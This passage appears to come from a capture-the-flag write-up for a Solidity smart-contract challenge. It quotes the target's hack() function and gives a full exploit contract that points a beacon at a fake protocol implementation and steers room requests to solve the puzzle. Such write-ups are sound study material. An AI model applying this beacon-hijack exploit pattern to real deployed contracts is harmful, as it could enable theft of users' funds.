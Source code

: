 Also, x cannot be the privateInput, otherwise isHacked() will be set to true :

```solidity
    function hack(int256 x, bool force) external {
        _onlyChannel();
        if (force || x == privateInput) {
            isHacked = true;
        }
    }
```

## Exploit contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import "./Setup.sol";
import "./FakeProtocol.sol";
import "forge-std/console.sol";

contract Exploit {
    Setup public setup;
    Beacon public beacon;
    Channel public channel;
    Protocol public protocol;
    Room public alice;
    Room public bob;
    Room public david;

    constructor(Setup _setup) {
        setup = _setup;
        beacon = setup.beacon();
        channel = setup.channel();
        protocol = setup.protocol();
        alice = setup.alice();
        bob = setup.bob();
        david = setup.david();
    }

    function run() public payable {
        setup.commitPuzzle(int256(2 + 24 + 90));
        FakeProtocol fakeProtocol = new FakeProtocol();
        beacon.update(address(fakeProtocol));

        alice.request(address(bob), 0);
        alice.request(address(david), 0);
        alice.selfRequest(0);
        
        // use a different number (thats not privateInput) so it wont revert with "had requested"
        bob.request(address(alice), 1);
        bob.request(address(david), 1);
        bob.selfRequest(1);
        
        david.request(address(alice), 3);
        david.request(address(bob), 3);
        david.selfRequest(3);
        
        int256[] memory xvs = new int256[](3);
        alice.solveRoomPuzzle(xvs);
        bob.solveRoomPuzzle(xvs);
        david.solveRoomPuzzle(xvs);
    }
}
```